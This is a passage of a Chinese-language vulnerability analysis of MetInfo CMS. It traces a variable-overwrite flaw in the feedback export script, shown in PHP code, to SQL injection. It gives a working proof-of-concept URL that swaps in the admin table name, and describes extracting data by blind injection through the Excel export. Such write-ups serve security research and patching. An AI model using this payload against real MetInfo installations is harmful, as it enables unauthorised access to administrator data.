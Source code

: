接著他進行了一項很危險的操作：

```php
foreach($settings_arr as $key=>$val){

        if($val['columnid']==$class1){

            $tingname    =$val['name'].'_'.$val['columnid'];   //這裡導致變數名必須含有下劃線的都可以被覆蓋

            $$val['name']=$$tingname;

        }

    }
```

其中,$settings_arr,$class1都可以在common.inc.php中被覆蓋，這就導致可以構造一定格式的變數（變數名必須要有下劃線）
那麼，如何利用，我們來找下面的sql語句，總共有三句，找第一句即可

```php
$query = "SELECT * FROM $met_parameter where module=8 and lang='$lang' order by no_order"; 

         //>>>>注意，$met_parameter是在$settings_arr後被初始化的，不能直接覆蓋，但是可以結合上面的危險操作，進行覆蓋<<<<
	
    //print $query.'<br>';

    //die();

    $result = $db->query($query);

    while($list= $db->fetch_array($result)){

        /*

        print '<br><br>$list=';

        print_r($list);

        */

        $feedbackpara[$list['id']]=$list;  // 注意这里的id

        $feedback_para[]=$list;

    }
```

<pre>POC:  
（其中的met_admin_table的met為metinfo自定義的前綴，可以用戶自定義）
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>


對於查詢的到的結果，會寫入excel文件內，但是因為列名是規定得死死的，不能直接把admin_table表的password列直接寫進excel，但是id是可以的，這就足夠進行盲注了
